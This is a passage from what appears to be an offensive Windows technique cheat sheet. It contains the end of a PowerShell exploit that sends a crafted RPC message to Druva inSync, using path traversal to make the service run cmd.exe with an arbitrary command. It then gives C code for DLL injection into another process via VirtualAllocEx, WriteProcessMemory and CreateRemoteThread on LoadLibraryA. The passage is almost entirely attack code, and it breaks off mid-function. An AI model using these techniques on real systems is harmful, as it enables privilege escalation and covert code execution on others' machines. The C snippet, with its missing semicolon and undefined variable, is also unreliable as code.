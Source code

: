     $header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
    $rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
    $command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
    $length = [System.BitConverter]::GetBytes($command.Length);

    $s.Send($header)
    $s.Send($rpcType)
    $s.Send($length)
    $s.Send($command)
    ```

* DLL injection:

    * LoadLibrary -

        ```c
        #include <windows.h>
        #include <stdio.h>

        int main() {
            // Using LoadLibrary for DLL injection
            // First, we need to get a handle to the target process
            DWORD targetProcessId = 123456 // The ID of the target process
            HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetProcessId);
            if (hProcess == NULL) {
                printf("Failed to open target process\n");
                return -1;
            }

            // Next, we need to allocate memory in the target process for the DLL path
            LPVOID dllPathAddressInRemoteMemory = VirtualAllocEx(hProcess, NULL, strlen(dllPath), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
            if (dllPathAddressInRemoteMemory == NULL) {
                printf("Failed to allocate memory in target process\n");
                return -1;
            }

            // Write the DLL path to the allocated memory in the target process
            BOOL succeededWriting = WriteProcessMemory(hProcess, dllPathAddressInRemoteMemory, dllPath, strlen(dllPath), NULL);
            if (!succeededWriting) {
                printf("Failed to write DLL path to target process\n");
                return -1;
            }

            // Get the address of LoadLibrary in kernel32.dll
            LPVOID loadLibraryAddress = (LPVOID)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
            if (loadLibraryAddress == NULL) {
                printf("Failed to get address of LoadLibraryA\n");
                return -1;
            }

            // Create a remote thread in the target process that starts at LoadLibrary and points to the DLL path
            HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibraryAddress, dllPathAddressInRemoteMemory, 0, NULL);
            if (hThread == NULL) {
                printf("Failed to create remote thread in target process\n");
                return -1;
            }
